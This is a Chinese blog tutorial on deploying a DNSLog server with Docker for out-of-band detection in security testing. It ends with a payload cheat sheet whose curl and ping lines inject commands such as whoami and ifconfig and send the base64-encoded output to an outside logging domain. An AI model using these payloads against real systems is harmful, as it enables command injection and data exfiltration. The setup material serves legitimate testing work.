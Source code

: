 Title:使用docker搭建dnslog服务器：python版开源cloudeye的部署
Date: 2018-01-04 10:20
Category: 工具相关
Tags: dnslog,docker
Slug: 
Authors: bit4
Summary: python版开源cloudeye的部署



本文档主要记录使用docker搭建dnslog的过程。使用如下项目版本，基于[原版](https://github.com/BugScanTeam/DNSLog)做了一些修改：

https://github.com/bit4woo/DNSLog

感谢[草粉师傅](https://github.com/coffeehb)的帮助

### 0x0、域名和配置

搭建并使用 DNSLog，需要拥有两个域名：

1. 一个作为 NS 服务器域名(例:code2sec.com)：在其中设置两条 A 记录指向我们的公网 IP 地址（无需修改DNS服务器，使用运营商默认的就可以了）：

```
ns1.code2sec.com  A 记录指向  10.11.12.13
ns2.code2sec.com  A 记录指向  10.11.12.13
```

2. 一个用于记录域名(例: 0v0.com)：修改 0v0.com 的 NS 记录为 1 中设定的两个域名（无需修改DNS服务器，使用运营商默认的就可以了）：

```
NS	*.0v0.com	ns1.code2sec.com
NS	*.0v0.com	ns2.code2sec.com
```

<u>注意：按照dnslog的说明是修改NS记录，但是自己的部署中修改了好几天之后仍然不正常，就转为修改DNS服务器，而后成功了。修改DNS服务器之后就无需在域名管理页面设置任何DNS记录了，因为这部分是在DNSlog的python代码中实现的。</u>

![changeNameServer](img/docker+dnslog/changeNameServer.png)

### 0x1、docker镜像构造

dockerfile内容如下

```dockerfile
FROM ubuntu:14.04

RUN sed -i 's/archive.ubuntu.com/mirrors.ustc.edu.cn/g' /etc/apt/sources.list

RUN apt-get update -y && apt-get install -y python && apt-get install python-pip -y && apt-get install git -y
RUN git clone https://github.com/bit4woo/DNSLog
WORKDIR /DNSLog/dnslog
RUN pip install -r requirements.pip

COPY ./settings.py /DNSLog/dnslog/dnslog/settings.py

COPY ./start.sh /DNSLog/dnslog/start.sh
RUN chmod +x start.sh
CMD ["./start.sh"]

EXPOSE 80
```

下载 `dnslog/dnslog/settings.py`并对如下字段进行对应的修改，保存settings.py：

```python
# 做 dns 记录的域名
DNS_DOMAIN = '0v0.com'

# 记录管理的域名, 这里前缀根据个人喜好来定
ADMIN_DOMAIN = 'admin.0v0.com'

# NS域名
NS1_DOMAIN = 'ns1.code2sec.com'
NS2_DOMAIN = 'ns2.code2sec.com'

# 服务器外网地址
SERVER_IP = '10.11.12.13'
```

创建一个dnslog的启动脚本，保存为start.sh：

```bash
#!/bin/bash
python manage.py runserver 0.0.0.0:80
```

准备好如上3个文件后，可以构建镜像了

```bash
docker build .
docker tag e99c409f6585 bit4/dnslog
docker run -d -it -p 80:80 -p 53:53/udp bit4/dnslog
#注意这个53udp端口，感谢CF_HB师傅的指导

docker exec -it container_ID_or_name /bin/bash
./start.sh
```



### 0x2、配置验证

使用nslookup命令进行验证，如果可以直接测试xxx.test.0v0.com了，说明所有配置已经全部生效；如果直接查询失败，而指定了dns服务器为 ns1.code2sec.com查询成功，说明dns服务器配置正确了，但是ns记录的设置需要等待同步或者配置错误。

```
nslookup
xxx.test.0v0.com
server ns1.code2sec.com
yyy.test.0v0.com
```

当然，在查询的同时可以登录网页端配合查看，是否收到请求。

在我自己的部署中，发现修改ns记录很久后仍然不能直接查询到 xxx.test.0v0.com，想到NS记录配置和DNS服务器设置都是修改解析的域名的服务器配置，就尝试修改了DNS服务器为 ns1.code2sec.com, 结果就一切正常了。



### 0x3、管理网站

后台地址：http://0v0.com/admin/  admin admin

用户地址：http://admin.0v0.com/ test 123456

更多详细问题参考项目https://github.com/BugScanTeam/DNSLog

**记得修改默认的账号密码！**



### 0x4、payload使用技巧

用||兼容windows和linux

```bash
ipconfig || ifconfig
#||是或逻辑， 如果第一个命令执行成功，将不会执行第二个；而如果第一个执行失败，将会执行第二个。

使用实例：
ping -n 3 xxx.test.0v0.com || ping -c 3 xxx.test.0v0.com
```



命令优先执行

```bash
%OS%
#windows的系统变量，用set命令可以查看所有可用的变量名称
`whomai` 
#linux下的命令优先执行,注意是反引号（`）这个字符一般在键盘的左上角，数字1的左边

测试效果如下:
root@ubuntu:~# echo `whoami`@bit4
root@bit4

E:\>echo %OS%@bit4
Windows_NT@bit4

使用实例：
curl "http://xxx.test.0v0.com/?`whoami`"
ping -c 3 `ifconfig en0|grep "inet "|awk '{print $2}'`.test.0v0.com
#DNS记录中获取源IP地址
```

![command_first](img/docker+dnslog/command_first.png)

消除空格

```bash
id|base64

使用实例：
curl test.0v0.com/`ifconfig|base64 -w 0` 
#-w 0 输出内容不换行，推荐这个方法
curl test.0v0.com/`ifconfig |base64 |tr -d '\n'`
#相同的效果
```

![base64](img/docker+dnslog/base64.png)

window下的curl

```bash
start http://xxxxxxxxx.test.0v0.com
#该命令的作用是通过默认浏览器打开网站，缺点是会打开窗口
```



### 0x5、常用payload汇总



```bash
#1.判断系统类型
ping `uname`.0v0.com || ping %OS%.0v0.com

#2.通用ping，dns类型payload
ping -n 3 xxx.0v0.com || ping -c 3 xxx.0v0.com

C:\Windows\System32\cmd.exe /c "ping -n 3 test.com || ping -c 3 test.com"
/bin/bash -c "ping -n 3 test.com || ping -c 3 test.com"


======================================分割线=====================================


#3.从DNS记录中获取源IP地址
ping -c 3 `ifconfig en0|grep "inet "|awk '{print $2}'`.test.0v0.com

#4.获取命令结果
curl test.0v0.com/`ifconfig|base64 -w 0`

```


